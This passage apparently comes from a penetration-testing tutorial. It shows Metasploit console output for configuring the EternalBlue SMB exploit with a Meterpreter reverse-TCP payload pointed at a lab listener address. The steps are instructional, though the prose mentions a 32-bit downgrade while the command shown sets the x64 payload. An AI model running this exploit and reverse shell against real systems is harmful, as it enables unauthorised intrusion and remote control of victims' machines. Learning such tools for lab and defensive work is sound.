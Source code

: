 
As we see there is an option stating that there is no payload that was set so it was defaulted to one `windows/x64/meterpreter/reverse_tcp` . Now let us see the options as we loaded the exploit.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.4         yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
```

Now we have more options that needs to be set for the module and the payload as well. If we are not satisfied with the payload and want to downgrade it to 32bit one as well we can do so using the set command.

```
msf6> set payload payload/windows/x64/meterpreter/reverse_tcp
```

we can list all the payloads for the exploit using the show payloads 

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

Compatible Payloads
===================

   #   Name                                                Disclosure Date  Rank    Check  Description
   -   ----                                                ---------------  ----    -----  -----------
   0   payload/generic/custom                                               normal  No     Custom Payload
```